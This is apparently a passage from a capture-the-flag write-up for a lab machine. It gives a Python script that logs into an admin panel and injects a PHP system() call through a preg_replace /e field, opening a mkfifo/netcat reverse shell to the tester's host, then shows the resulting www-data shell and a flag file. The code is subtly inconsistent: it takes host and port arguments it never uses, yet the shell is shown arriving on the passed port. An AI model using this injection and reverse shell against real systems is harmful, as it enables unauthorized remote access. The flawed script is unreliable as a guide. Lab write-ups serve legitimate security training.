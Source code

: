   

Although it is not necessary as an extra to automate gaining access, we can create a `script`Python script that authenticates and sends the request with the`revshell`

```
#!/usr/bin/python3
import requests, sys
from pwn import log

if len(sys.argv) < 2:
    log.failure(f"Uso: python3 {sys.argv[0]} <lhost> <lport>")
    sys.exit(1)

target = "http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin"
session = requests.Session()

auth = {"username": "admin", "password": "Hackthesystem200"}
data = {"swearwords[/fuck/e]": f"system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.9 4444 >/tmp/f')", "to": "test@test.com", "subject": "test", "message": "fuck", "_wysihtml5_mode": 1}  

session.post(target + "/dologin.php", data=auth)
session.post(target + "/email.php", data=data)
```

  

We execute it by passing it our ip and port as `argumentos`and we obtain the shell

```
❯ python3 exploit.py 10.10.14.10 443  
```

  

```
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.10
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ hostname -I  
10.13.37.10
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$
```

  

Looking at the existing files in the current directory we see the `flag`, we read it

```
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ ls -l
-rw-r--r--  1 root root        33 Dec 20  2017 a_flag_is_here.txt
-rwxr-x---  1 root www-data   157 Jan  3  2018 auth.php
-rwxr-x---  1 root www-data    39 Dec 20  2017 badwords.txt
drwxr-x--- 32 root www-data  4096 Dec 20  2017 bower_components
drwxr-x---  6 root www-data  4096 Oct  9  2017 build
-rwxr-x---  1 root www-data    82 Dec 20  2017 conf.php
-rwxr-x---  1 root www-data 44067 Dec 27  2017 dashboard.php
-rwxr-x---  1 root www-data   600 Dec 20  2017 db.php
drwxr-x---  5 root www-data  4096 Oct  9  2017 dist
-rwxr-x---  1 root www-data   820 Dec 27  2017 dologin.php
-rwxr-x---  1 root www-data  2881 Dec 27  2017 email.php
-rwxr-x---  1 root www-data    43 Dec 20  2017 index.php
drwxr-x---  2 root www-data  4096 Dec 20  2017 js
-rwxr-x---  1 root www-data  3606 Dec 20  2017 login.php
-rwxr-x---  1 root www-data    98 Dec 20  2017 logout.php
drwxr-x--- 10 root www-data  4096 Dec 20  2017 plugins
-rwxr-x---  1 root www-data    21 Nov 14  2017 stats.php
drwxrwxrwx  2 root www-data  4096 Dec 20  2017 uploads
```